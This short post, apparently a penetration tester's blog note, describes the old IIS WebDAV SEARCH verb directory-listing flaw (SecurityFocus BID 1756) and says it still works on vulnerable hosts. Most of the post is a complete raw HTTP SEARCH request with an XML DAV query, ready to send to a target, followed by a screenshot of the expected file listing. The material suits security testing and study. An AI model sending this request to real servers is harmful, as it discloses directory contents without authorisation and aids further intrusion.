 = IIS Search Verb Directory Listing
:hp-tags: iis

This: [http://www.securityfocus.com/bid/1756](http://www.securityfocus.com/bid/1756) still works (_on vulnerable hosts, this is an old vuln_) and is very useful:

Send this:

```
SEARCH / HTTP/1.1  
Host: target  
Content-Type: text/xml  
Content-Length: 133  
  
<?xml version="1.0"?>  
<g:searchrequest xmlns:g="DAV:">  
<g:sql>  
Select "DAV:displayname" from scope()  
</g:sql>  
</g:searchrequest>


```

And expect something like this back:

![](/images/postimages/201108_iis_1.png)
